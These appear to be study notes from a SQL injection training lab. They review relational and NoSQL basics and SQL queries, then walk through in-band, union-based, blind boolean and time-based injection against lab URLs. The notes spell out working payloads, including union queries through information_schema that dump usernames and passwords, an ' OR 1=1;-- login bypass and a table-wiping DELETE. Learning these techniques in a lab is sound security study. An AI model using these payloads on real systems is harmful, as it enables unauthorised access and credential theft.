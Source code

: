SQL review: Relational - Uses tables with columns as fields and rows as entries. Each row must have a key field that is unique for each row. Entries are redundant across tables but have different columns, columns from entries are able to be pulled across tables with queries.
Non-relational - also NoSQL, don't use tables, columns, rows to store data. Structure can vary and entries can store different information, giving flexibility. Ex. MongoDB, ElasticSearch
DBMS - Database Management Software

Example Queries:

- select * from users;
- select username, password from users;
    ^-query--column-----column----------table^
- select * from users where username!='admin' and password='1234';
    Query Modifiers:
- LIMIT 1 / LIMIT 2,1 (skips 2)
- and / or
- like 'a%' or '%a%' or '%a' (start, contains, or ends with)

UNION:
Combines results of multiple SELECTs, even across tables, Requires same number of columns, same order, and similar data types in each SELECT.
SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;
*each returns 3 entries individually, but UNION returns 6 entries*
Returns-> Name | Address | City | Postcode, but name and companies are returned as string types intermixed in the returned name field.
Edits (INSERT/UPDATE/DELETE):
INSERT into users (username,password) values ('brian', '1234');
UPDATE users SET username='newname',password='1234' where username='oldname';
DELETE from users where username='firedemployee';
DELETE from users; (wipes entire table...)

SQL Inject:
Use '--' to comment out the remaining query line
In-Band SQLi uses the same band of communication to send the exploit and receive the result.
Error-Based helps enumerate a DB through error message parsing
Union-Based uses UNION and SELECT to return additional results, especially on a large scale.
Ex. website.thm/blog?id=1, behind the scenes, SELECT * from blog where id=1 and private=0 LIMIT 1;
Inject -> id=2;-- , this pulls id 2 which is private and ignores the rest of the query.
Out-of-Band used a 3rd system to confirm / receive info from the server being interacted with. Example, hacker (command)-> SQL server (DNS request)-> hacker controlled DNS server -> back to hacker

Practical Examples:

Level 1 (In-Band)
website.thm/article?id=1
- Use error-based injections (use ' or " chars) to get back-end feedback on whats going on. If error is received, that means its manipulatable. ex. article?id=1'
- Then use union-based injections to compare info returned from returned article to a another select statement, ex article?id=1 UNION SELECT 1, specifying which column(s) to return to determine how many the returned article has. If error, then there was a mismatch in col numbers. \*\*SELECT 1 (inferred FROM \*table*, will return 1 for the amount of rows in a column)
- Iterate using more columns, ex. ...id=1 UNION SELECT 1,2,3, finding that 3 is the correct amount of columns (no errors)
- But the website still shows the proper article and not our UNION SELECT since its the second entry returned. To work around this, return a non-existent article number (0), or append LIMIT 1,1 (limit 1 return, jump ahead 1 result). Website now shows 1, 2, 3 in returned entry
- Return the name of the current database with ...UNION SELECT 1,2,database()
- Leverage the database name to feed SQL functions and locate other tables.
-- information\_schema.tables, gives all tables within the database, information\_schema.columns, etc...
-- group_concat(...), returns list items as a concatenated string
-- vars: table\_schema = name of the database/schema with table, table\_name, column_name
Finally, ...id=0 UNION SELECT 1,2,group\_concat(table\_name) FROM information\_schema.tables WHERE table\_schema = 'sqli_one'
- Now we have the table names, one of which is staff\_users, so to find columns in staff\_users, ...id=0 UNION SELECT 1,2,group\_concat(column\_name) FROM information\_schema.columns WHERE table\_name = 'staff_users'
- Now dump out this table since we have all its info, ...id=0 UNION SELECT 1,2,group\_concat(username,':', password) FROM staff\_users. Creds are dumped!

Level 2 (Blind SQLi - Auth Bypass)
- Very basic SQL inject, put: ' OR 1=1;-- in username or password field for candy

Level 3 (Blind SQLi - Boolean Based)
Similar to level 1, but server gives no error. It just confirms whether a searched entry exists or not. Ex. username=admin returns true, but =admin123 returns false. Since input isn't returned directly, we need to use, LIKE 'x%';-- statements to brute force database name (sqli_three), table name (users), columns (id, username, password), and then the admin password (3845).
- ex. ...admin123' SELECT UNION 1,2,3 FROM information\_schema.columns WHERE table\_schema = 'sqli\_three' AND table\_name = 'users' AND column_name LIKE 'x%';--
- in LIKE, % functions as a 0,1, or many wildcard, while _ is a 1 wildcard

Level 4
Similar to level 1 and 3, but using SLEEP(x) in the UNION to test based on response time.
